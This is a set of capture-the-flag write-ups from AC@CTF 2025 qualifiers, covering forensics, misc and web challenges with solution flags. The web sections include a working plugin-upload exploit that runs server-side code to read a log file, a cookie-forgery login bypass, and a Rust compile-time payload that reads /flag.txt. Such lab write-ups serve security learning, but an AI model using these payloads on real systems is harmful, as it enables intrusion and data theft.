

# AC@CTF 2025 Qualifiers Writeups
## Made with Love by Dacia Team (🥉 Overall / 🥈 Participans)
### Qualified for finals!!

### Well played to everyone! 👇



# Writeups:

## Misc

Challenge|Author|Solves
-|-|-
[Escaping Barcelona](<./misc/Escaping-Barcelona>)|0v3rCl0kEd|50
[Rugina](<./misc/rugina>)|thek0der|36

## Forensics

Challenge|Author|Solves
-|-|-
[Hidden in The Cartridge](<./forensics/Hidden-in-the-Cartridge/>)|AAntioch|84
[unknown-traffic1](<./forensics/unknown-traffic1/>)|thek0der|52

## Web

Challenge|Author|Solves
-|-|-
[money](<./web/money>)|stancium|61
[random-gallery](<./web/random-gallery>)|RaduTek|62


---

## Hidden in the Cartridge


**Author:** `AAntioch`  
**Solves:** 84

---

## Description

During a test session on the **Retro-Arcade emulator**, we’re given a **corrupted copy of Space Invaders**.  
The game won’t boot, but the memory logs remain inside the ROM file.  

Rumor has it the developers left hidden messages in the test cartridges. Can we recover the flag?

We get: `Hidden_in_the_Cartridge.7z`

---

## Solve

I just used strings on the file
```bash
strings strings space_invaders.nes
```
 and saw something fishy:
```bash
A[1987-06-15 10:32:01] INFO   - Booting Retro-Arcade v1.0
[1987-06-15 10:32:02] INFO   - Cartridge loaded: Space Invaders
@|.Ar
63$$$74$$$66$$$7b$$$39$$$66$$$31$$$62$$$34$$$33$$$38$$$31
...
[1987-06-15 10:32:04] INFO   - Player 1 inserted coin
[1987-06-15 10:32:07] WARN   - High score table corrupted
[1987-06-15 10:32:11] DEBUG  - Sprite cache rebuilt successfully
36$$$34$$$64$$$62$$$63$$$38$$$61$$$36$$$32$$$34$$$39$$$62
...
[1987-06-15 10:32:13] ERROR  - Controller port 2 not responding
61$$$35$$$63$$$36$$$36$$$66$$$63$$$30$$$64$$$36$$$31$$$39
-p35$$$62$$$35$$$33$$$38$$$38$$$62$$$65$$$65$$$64$$$38$$$39
...
[1987-06-15 10:32:16] DEBUG  - Secret cheat code:
 B A
[1987-06-15 10:32:19] DEBUG  - Memory dump token: 0xL0TS0FM0N3Y
30$$$36$$$38$$$30$$$62$$$66$$$36$$$31$$$36$$$30$$$32$$$31
...
[1987-06-15 10:32:22] INFO   - Emulator paused?
[1987-06-15 10:32:25] INFO   - Emulator shutdown complete??
66$$$32$$$35$$$38$$$32$$$32$$$34$$$38$$$7d"<u
```


Looking closer:

- `63` → `c`  
- `74` → `t`  
- `66` → `f`  
- `7b` → `{`  
- `7d` → `}`  

Those are clearly **hex values** spelling out the flag.

So I copied all the suspicious fragments into [**/forensics/Hidden-in-the-Cartridge/hex.txt**](/forensics/Hidden-in-the-Cartridge/hex.txt) (one block per line).  
Then I wrote a tiny [**/forensics/Hidden-in-the-Cartridge/solve.py**](/forensics/Hidden-in-the-Cartridge/solve.py) to parse the file, strip the `$$$`, concatenate everything, and decode the hex.

Running it prints the full flag:

```bash
python solve.py hex.txt
Output:
Hex string: 6374667b396631623433383136346462633861363234396261356336366663306436313935623533383862656564383930363830626636313630323166323538323234387d
Flag: ctf{9f1b438164dbc8a6249ba5c66fc0d6195b5388beed890680bf616021f2582248}

```


### Flag: ctf{9f1b438164dbc8a6249ba5c66fc0d6195b5388beed890680bf616021f2582248}


## Escaping Barcelona


**Author:** `0v3rCl0kEd`  
**Solves**: 50

---

## Description

We must leave this planet at exactly 18:00 UTC+2 on 7th of November 2025. Leaving from Barcelona so act quick and give me the distance to Mars.

### flag format: ctf{123.456 M km} - note the spaces and number format!

---

## Solve

Made a quick search on google about "planet distance calculator" and found this website https://www.planetscalc.org


Enter the details! And we can see the Distance exactly!


### Flag: ctf{361.290 M km}

## Rugină


**Author:** `thek0der`  
**Solves:** 36

---

## Description

Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you.  

---

## Solve

The compiler replaces `principal { ... }` with a `fn main { ... }` function and then runs **rustc**.  
All compiler errors are shown back to us in the browser.  
That means we can abuse Rust compile-time macros:

- `include_str!("/path")` reads a file at **compile time**  
- `compile_error!(...)` stops compilation and prints a message

So if we wrap the flag file in `compile_error!(include_str!(...))`, the compiler error will literally contain the file contents.

Final payload:

```rust
principal { compile_error!(include_str!("/flag.txt")); }
```


### Flag: ctf{73523e676b04e1c2db176d8035648893648b969f5ddf5ac40f8fc5b6c15d8692}


## Money


**Author:** `stancium`   
**Solve:** 61

---

## Description

This isn't wordpress...

We get: `Server.py`
---

## Vulnerabilities

* Arbitrary Code Execution: Uploaded `init.py` is executed with `subprocess.run([...], cwd=plugin_dir)` with no sandboxing.
* Hard-coded symmetric key: `KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"` allows anyone to craft valid `.plugin` packages.
* Log exposure vector: Flag is printed to stdout by the official plugin and captured in `/opt/app/app.log`.
* Store gating by plugin count: Downloading from `/store` is gated by `len(registry) > 2`, which can be trivially reached by uploading benign plugins.

---

## Exploit Overview

1. Build a valid `.plugin` archive (zip), place an `init.py` that reads `/opt/app/app.log` and writes it into the plugin's own `index.html`.
2. Encrypt the zip using the known AES-CBC key (prepend a random IV), producing a `.plugin` file.
3. Upload the `.plugin` to the portal. The server will decrypt, extract, and execute `init.py`.
4. Visit `/widget/<your-uid>` — the server will serve the `index.html` you created, which contains the contents of the server log, including the flag line.
5. Parse the flag from the served page (it appears as `You cannot see this MUHAHAHAHA: <FLAG>` in the log).

---

## Solve.py

### 1. Payload that runs on the server:
```python
INIT_PY = r'''
import os, html
from pathlib import Path
plug = Path(__file__).resolve().parent
src = "/opt/app/app.log"
try:
    data = Path(src).read_text(errors="ignore")
except Exception as e:
    data = f"[read error] {e}"
html_out = "<!doctype html><meta charset='utf-8'><title>log</title><pre>" + html.escape(data) + "</pre>"
(plug / "index.html").write_text(html_out)
print("ok")
'''
```
This string becomes the init.py file inside the plugin ZIP.   
When the server executes init.py, it:
  Reads /opt/app/app.log (where the server logged the official plugin’s stdout that contains the flag).   
  Builds a minimal HTML page wrapping the log (escaped so it’s safe to view).   
  Writes that page to index.html inside the plugin directory.   
  Prints "ok" to stdout (server captures stdout in logs too).   
Result: after upload + execution, visiting /widget/<uid> will serve the index.html we just wrote (i.e., the server log).   


### 2. Build plugin ZIP (in-memory)

Create a ZIP containing the files the portal expects:
```bash
- plugin_manifest.json   # {"name": NAME, "version":"1.0", "author":"me", "icon":"thumbnail.svg"}
- thumbnail.svg          # small dashboard icon
- index.html             # placeholder (payload will overwrite this on the server)
- init.py                # the payload (INIT_PY) shown above
```

### 3. Encrypt to .plugin format

The server expects a .plugin file to be the IV (16 bytes) followed by AES-CBC(KEY, Padded(ZIP)). Steps:
```python
iv = os.urandom(16)                         # random 16-byte IV
ciphertext = AES.new(KEY, AES.MODE_CBC, iv).encrypt(pad(zip_bytes, AES.block_size))
plugin_blob = iv + ciphertext               # file contents to upload
*Because the server uses a hard-coded key (KEY) we can produce a valid .plugin.
```

### 4. Upload the plugin

POST the .plugin to /upload as multipart form data:
```python
files = {'file': ('exploit.plugin', plugin_blob, 'application/octet-stream')}
requests.post(f"{BASE}/upload", files=files)
```

On the server this triggers:
```bash
Save uploaded file.
Decrypt using KEY.
Extract the zip into a new plugins/<uid>/ directory.
Execute init.py with subprocess.run(..., cwd=plugin_dir) — our payload runs now.
```

### 5. Find your plugin UID on the dashboard

After upload the dashboard (/) shows a widget card for the plugin. Scrape it to get the UID:
```python
<a class="link" href="/widget/<uid>">LOG_RIPPER</a>
```
The UID is used to fetch /widget/<uid> which serves that plugin’s index.html.

### 6. Fetch the widget page (exfiltrate the log)

GET /widget/<uid> — the server will now serve the index.html our payload wrote, which contains the escaped contents of /opt/app/app.log.

Save it locally for inspection:
```python
page = requests.get(f"{BASE}/widget/{uid}").text
open("widget_log.html","w").write(page)
```

### 7. Check for flag

```python
def extract_flags(text):
    pats = [r"CTF\{[^}]+\}", r"UPT\{[^}]+\}", r"flag\{[^}]+\}"]
    found = []
    for p in pats:
        found += re.findall(p, text, flags=re.IGNORECASE)
    m = re.search(r"MUHAHAHAHA:\s*([A-Za-z0-9_\-\{\}]+)", text)
    if m: found.append(m.group(1))
    seen = set(); out=[]
    for f in found:
        if f not in seen:
            seen.add(f); out.append(f)
    return out

...
# in main...
flags = extract_flags(page)
    if flags:
        print("flags found:")
        for f in flags: print("   ", f)
    else:
        print("no flag")
```


### Flag:  CTF{9fb64c8a4d81f9d0e1f4108467bee58db112d0d1457fa3716cc6a46231803686}

## random-gallery


**Author:** `RaduTek`   
**Solve:** 62

---

## Description

just some photos?

---

## Recon

We can see just a simple web page with a login screen.

When we try to do a curl with some tests for login we get this reponse:

```bash
$ curl -i -X POST http://ctf.ac.upt.ro:9622/login   -H 'Content-Type: application/x-www-form-urlencoded'   --data 'username=test&password=wrong'

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:50:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1107
Set-Cookie: logged_in=False; Path=/
Connection: close
```

Clearly the **logged_in=False** is a huge discovery.
Because by simply making a request with **logged_in=True** we could bypass the login entirely!

## Solve

```bash
$ curl -i -H 'Cookie: logged_in=True' http://ctf.ac.upt.ro:9622
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Tue, 16 Sep 2025 16:53:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 203
Location: /gallery
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/gallery">/gallery</a>. If not, click the link.
```

That's exactly what we wanted, we can do this ourselves on the browser using a Cookie Editor plugin!


Then we are in !


Inside city -> haunts -> me 

We get a qr code


Scanning it


We get a pastebin link


There is our flag!

### Flag: ctf{1cd4daf060aee882653595cca4e719d48a3080cd1b76055812145da8a10b47e1}

# unknown-traffic1


**Author:** `thek0der`  
**Solves:** 52

---

## Solve

Analizing the packets I find some
```bash
GET /pageN.html
UDP bursts
ICMP Echo
```

The ICMP Packets we re important because:
1. this is how a ICMP Echo packet looks like

```bash
Type (1) | Code (1) | Checksum (2) | Identifier (2) | Sequence (2) | Data ...
```

For us it carried Base64 strings which we're part of the flag!

```bash
icmp && (icmp.type == 8 || icmp.type == 0) && data.len > 0
```

using this filter in wireshark and looking only with id=1337!


We can use the solve.py to automate this!

```bash
python solve.py unknown-traffic1.pcap
[+] Identifier used: 0x1
[+] Sequence → token:
      1 → ctf{72
      2 → c8c109
      3 → 0e0bba
      4 → 717671
      5 → f79de6
      6 → e941a2
      7 → 81e2f5
      8 → 1da298
      9 → 65722f
     10 → 98c9fa
     11 → 3b7160
     12 → e5}

[+] Flag:
ctf{72c8c1090e0bba717671f79de6e941a281e2f51da29865722f98c9fa3b7160e5}
```

### Flag: ctf{72c8c1090e0bba717671f79de6e941a281e2f51da29865722f98c9fa3b7160e5}